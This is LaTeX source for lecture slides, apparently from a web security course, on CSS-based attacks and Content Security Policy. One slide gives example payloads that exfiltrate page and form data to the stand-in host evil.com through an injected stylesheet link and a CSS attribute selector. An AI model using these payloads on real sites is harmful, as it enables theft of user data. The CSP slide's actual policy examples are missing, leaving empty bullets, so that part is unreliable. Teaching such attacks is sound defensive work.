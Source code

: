 \begin{frame}[fragile]{Aside: why care about stylesheets?}
    \begin{itemize}
    \item get data: \verb|<link rel=stylesheet href="http://evil.com/?webpage contents here...|
    \item conditional image loaded to get data? assuming pre-filled-in-form:
        \begin{itemize}
        \item \verb|input[value^=Virginia] {background: url(http://evil.com?Virginia)}|
        \end{itemize}
    \item adjust webpage display in lots of ways
        \begin{itemize}
        \item convince user to click in wrong places?
        \end{itemize}
    \item IE 7 supported CSS expressions that can construct URLs from webpage data directly
    \end{itemize}
\end{frame}

\begin{frame}{Content Security Policy examples (1)}
    \begin{itemize} 
        \item {}
        \begin{itemize}
            \item allow scripts from same host or \texttt{www.google-analytics.com}
            \item {}
            \item disallow plugins
        \end{itemize}
    \item {}
        \begin{itemize}
            \item allow nothing to start; then whitelist what is needed
            \item recommended strategy
        \end{itemize}
    \end{itemize}
\end{frame}

